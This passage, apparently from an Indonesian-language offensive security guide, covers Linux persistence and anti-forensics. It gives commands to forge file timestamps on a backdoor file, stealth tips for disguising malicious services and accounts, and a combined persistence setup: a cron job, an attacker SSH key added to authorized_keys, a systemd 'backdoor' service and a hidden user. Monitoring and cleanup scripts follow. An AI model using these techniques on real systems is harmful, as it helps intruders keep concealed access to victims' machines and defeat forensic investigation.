 ### Timestamp Manipulation:
```bash
# Change file timestamps
touch -r /etc/passwd backdoor_file
touch -t 202301010000 suspicious_file

# Batch timestamp change
find /path -name "*.log" -exec touch -r /etc/passwd {} \;
```

## ⚡ Tips Praktis

### 1. Stealth Considerations:
- Gunakan nama file/service yang terlihat legitimate
- Set timestamps yang masuk akal
- Gunakan permissions yang sesuai
- Hindari high-frequency execution

### 2. Multiple Persistence Methods:
```bash
# Kombinasi multiple methods
# 1. Cron job
echo "*/10 * * * * /usr/bin/system-check" | crontab -

# 2. SSH key
echo "ssh-rsa AAAAB3... maintenance@system" >> ~/.ssh/authorized_keys

# 3. Systemd service
systemctl enable backdoor.service

# 4. User account
useradd -r -s /bin/bash system-helper
```

### 3. Monitoring & Maintenance:
```bash
# Check if persistence is still active
crontab -l | grep system-check
systemctl status backdoor.service
id system-helper
```

### 4. Cleanup Script:
```bash
#!/bin/bash
# Remove all persistence mechanisms
crontab -r
userdel -r system-helper
systemctl disable backdoor.service
rm /etc/systemd/system/backdoor.service
sed -i '/ssh-rsa.*maintenance/d' ~/.ssh/authorized_keys
```
